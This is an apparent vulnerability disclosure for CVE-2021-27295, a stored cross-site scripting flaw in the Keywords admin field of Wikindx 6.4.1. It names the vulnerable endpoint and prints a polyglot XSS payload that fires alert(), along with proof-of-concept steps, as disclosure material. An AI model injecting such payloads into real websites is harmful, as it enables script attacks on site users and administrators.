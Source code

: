 # CVE-2021-27295 - XSS in Wikindx 6.4.1 - Wikindx CMS - reference management software, Stored Cross-Site Scripting Vulnerability in 'Keywords'

[![Watch the video]()](https://#)

## Date

2021-02-11 <br />

## Exploit Author
Anmol K Sachan <br />

## Vendor Homepage
http://wikindx.com <br />

## Software Link
http://wikindx.com/ <br />
https://sourceforge.net/projects/wikindx/ <br />

## Vulnerable Software Link
https://sourceforge.net/projects/wikindx/ <br />

## Software: : 
Wikindx 6.4.1 <br />

## Vulnerability Type
Stored Cross-site Scripting <br />

## Vulnerability
Stored XSS <br />

## Tested on Windows 10 XAMPP 
<br />

## CVE Assigned 
CVE-2021-27295 <br />
This application is vulnerable to Stored XSS vulnerability. <br />

## Vulnerable script
http://localhost/wikindx/index.php?action=admin_ADMINKEYWORD_CORE&method=editInit <br />

## Vulnerable parameters 'Keywords' <br />

## Payload used <br />
```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e``` 
<br /> 
## POC
"Attack Vectors" field was set to: Must
be logged in as admin Go to Admin -> Keywords -> Edit
(index.php?action=admin_ADMINKEYWORD_CORE&method=editInit)
add Javascript payload: jaVasCript:/*-/*`/*\`/*'/*"/**/(/*
*/oNcliCk=alert()
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x
3csVg/<sVg/oNloAd=alert()//>\x3e
To view resuts go to (Admin priviledge not required):
Metadata -> Keywords -> All
(index.php?action=browse_BROWSEKEYWORD_CORE&metadata=1&mType
=all)

## Referneces
1. To be added
